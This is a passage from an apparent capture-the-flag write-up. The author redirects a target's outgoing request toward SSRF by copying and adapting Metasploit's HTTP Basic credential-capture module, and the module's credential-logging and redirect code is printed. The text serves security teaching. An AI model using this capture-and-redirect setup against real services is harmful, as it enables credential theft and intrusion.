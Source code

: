 I'll show the code that's generating these requests in [Beyond
Root](#general).

I want to redirect this 11th request to see what it is and if I can turn
it into SSRF. I'll show two strategies for this, using Metasploit and
`ncat`.

#### Metasploit

I'll create a custom Metasploit module to see if I can redirect that
last request. Metasploit modules go into `~/.msf4/modules`. Because I'll
run `msfconsole` as root (to listen on low ports, etc), I'll need to
work from `/root/.msf4`, so I'll just get a console as root for this
development.

First, I'll make a directory



    root@parrot# sudo mkdir -p /root/.msf4/modules/auxiliary/server/



Now I'll start with another module that can listen on 443 and do a
redirect, `auxiliary/server/capture/http_basic`.



    root@parrot# cp /usr/share/metasploit-framework/modules/auxiliary/server/capture/http_basic.rb /root/.msf4/modules/auxiliary/server/jarmisRedirect.rb



This module has four functions:

-   `initialize` - sets metadata
-   `support_ipv6` - returns `false`
-   `run` - sets variables and calls `exploit`
-   `report_creds` - saves creds
-   `on_request` - handles incoming HTTP(S) request

I'll delete `report_creds` entirely. `on_request` is where I'll do my
redirect. Currently, it looks like:



      def on_request_uri(cli, req)
        if(req['Authorization'] and req['Authorization'] =~ /basic/i)
          basic,auth = req['Authorization'].split(/\s+/)
          user,pass  = Rex::Text.decode_base64(auth).split(':', 2)

          report_cred(
            ip: cli.peerhost,
            port: datastore['SRVPORT'],
            service_name: 'HTTP',
            user: user,
            password: pass,
            proof: req['Authorization']
          )

          print_good("HTTP Basic Auth LOGIN #{cli.peerhost} \"#{user}:#{pass}\" / #{req.resource}")
          if datastore['RedirectURL']
            print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")
            send_redirect(cli, datastore['RedirectURL'])
          else
            send_not_found(cli)
          end
        else
          print_status("Sending 401 to client #{cli.peerhost}")
          response = create_response(401, "Unauthorized")
          response.headers['WWW-Authenticate'] = "Basic realm=\"#{@realm}\""
          cli.send_response(response)
        end